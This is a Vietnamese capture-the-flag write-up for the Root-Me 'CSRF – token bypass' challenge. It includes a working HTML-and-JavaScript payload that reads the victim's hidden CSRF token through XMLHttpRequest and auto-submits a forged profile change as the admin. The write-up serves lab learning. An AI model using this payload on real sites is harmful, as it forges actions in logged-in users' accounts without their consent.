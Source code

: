 # [CSRF – token bypass](https://www.root-me.org/en/Challenges/Web-Client/CSRF-token-bypass)

Nhìn qua, ta thấy website này có các chức năng tương tự bài CSRF 0 protection. Tuy vậy, ta có thể phát hiện được ở tab Contact, có một thẻ input bị hidden có name là token:

<img src="./media/image1.png" style="width:6.5in;height:0.76667in" />

Giá trị token này sẽ thay đổi liên tục khi ta thực hiện submit form:

<img src="./media/image2.png" style="width:6.5in;height:0.54722in" />

Điều này sẽ được xác thực bởi server. Từ đó, ta cần trộm token này trước khi submit form như bài CSRF 0 protection. Ta có thể sử dụng Ajax và XMLHttpRequest() để có thể get được value này.

```html
<form id="clickme" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">

<input type="text" name="username" value="19522445">

<input type="checkbox" name="status" checked>

<input id="token" type="hidden" name="token" value=""/>

<button type="submit">Submit</button>

</form>

<script>

var req = new XMLHttpRequest();

req.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);

req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

req.send();

var token = req.responseText.match(/\[abcdef0123456789\]{32}/);

document.getElementById("token").value = token;

document.getElementById("clickme").submit();

</script>
```

<img src="./media/image3.png" style="width:6.5in;height:2.19444in" alt="Graphical user interface, text, application Description automatically generated" />

Submit để gửi contact đến admin và qua tab Private để kiểm tra kết quả. Sau hơn 1 phút, ta nhận được flag:

<img src="./media/image4.png" style="width:5.968in;height:2.21847in" alt="Graphical user interface, text, application, chat or text message Description automatically generated" />

- Flag: "****************************"
